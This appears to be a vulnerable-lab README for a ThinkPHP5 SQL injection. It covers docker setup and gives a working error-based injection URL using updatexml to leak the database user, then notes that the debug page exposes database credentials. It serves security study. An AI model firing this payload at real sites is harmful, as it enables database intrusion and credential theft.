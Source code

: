 # ThinkPHP5 SQL Injection Vulnerability && Sensitive Information Disclosure

Operating environment:

```
Docker-compose up -d
```

After launching, visit `http://your-ip/index.php?ids[]=1&ids[]=2` to see that the username is displayed, indicating that the environment is running successfully.

## Vulnerability Principle

Explanation of the principle of vulnerability:

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xianzhi.aliyun.com/forum/read/1813.html

No longer.

## Vulnerability

Access `http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`, the information is successfully popped out:

![](01.png)

Of course, this is a bit of a SQL injection vulnerability. But through the DEBUG page, we found the database account and password:

![](02.png)

This is again a sensitive information disclosure vulnerability.